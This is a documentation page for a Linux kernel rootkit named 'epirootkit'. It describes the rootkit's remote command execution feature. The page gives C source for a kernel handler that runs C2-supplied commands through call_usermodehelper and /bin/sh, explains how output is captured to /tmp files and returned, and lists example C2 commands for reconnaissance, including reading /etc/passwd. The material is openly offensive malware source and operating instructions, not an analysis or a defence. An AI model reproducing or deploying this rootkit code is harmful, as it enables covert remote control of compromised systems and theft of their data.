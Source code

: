 ```yaml
---
title: "Command Execution"
description: "Execute shell commands remotely with full output capture"
icon: "terminal"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 510
---
```


# Command Execution

Execute shell commands remotely through the rootkit with full output capture.

## How It Works

1. **C2 sends command** via network
2. **Rootkit executes** using `call_usermodehelper()` with `/bin/sh -c`
3. **Captures output** by redirecting to temporary file
4. **Returns result** with exit code and output

## Implementation

### Command Handler
```c
static int handle_exec(const char *data)
{
    char *argv[] = { "/bin/sh", "-c", command_copy, NULL };
    char *envp[] = { 
        "HOME=/", 
        "PATH=/sbin:/bin:/usr/bin:/usr/local/bin", 
        NULL 
    };
    
    // Generate unique temporary filename
    snprintf(temp_filename, sizeof(temp_filename), 
             "/tmp/epirootkit_out_%d", atomic_inc_return(&exec_counter));
    
    // Build command with output redirection
    snprintf(full_command, command_len + temp_len + 32,
             "%s > %s 2>&1", data, temp_filename);
    
    // Execute and capture output
    ret = call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
    
    return send_result(formatted_result);
}
```

### Output Capture
- **Redirection**: `command > /tmp/epirootkit_out_X 2>&1`
- **File reading**: Uses `kernel_read()` to get output
- **Dynamic allocation**: `vmalloc()` for large outputs (up to 64KB)
- **Cleanup**: Automatic temporary file removal

## Usage

### WebUI Terminal
Interactive terminal interface with:
- **Command input**: Type commands directly
- **Real-time output**: Immediate response display
- **Command history**: Previous commands accessible
- **Exit codes**: Color-coded success/failure indicators

### Example C2 Commands
```bash
# System information
exec Client-1 whoami
exec Client-1 uname -a
exec Client-1 ps aux

# File operations
exec Client-1 ls -la /etc
exec Client-1 cat /etc/passwd
exec Client-1 find /var/log -name "*.log"

# Network reconnaissance  
exec Client-1 netstat -tuln
exec Client-1 ss -tulpn
exec Client-1 iptables -L
```